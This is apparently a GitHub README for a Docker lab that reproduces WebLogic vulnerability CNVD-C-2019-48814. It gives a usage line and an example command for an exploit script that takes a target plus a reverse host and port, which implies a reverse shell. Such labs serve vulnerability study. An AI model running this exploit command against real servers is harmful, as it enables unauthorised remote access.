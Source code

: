 # CNVD-C-2019-48814

## CNVD-C-2019-48814漏洞利用环境

本Docker环境是对`ismaleiva90/weblogic12`的直接引用，未做任何修改，感谢原作者！

## Exp 用法：

`python3 CNVD-C-2019-48814.py TARGET REVERSE_HOST REVERSE_PORT`

Example:
`python3 CNVD-C-2019-48814.py http://172.17.0.2:7001 172.17.0.1 4444`


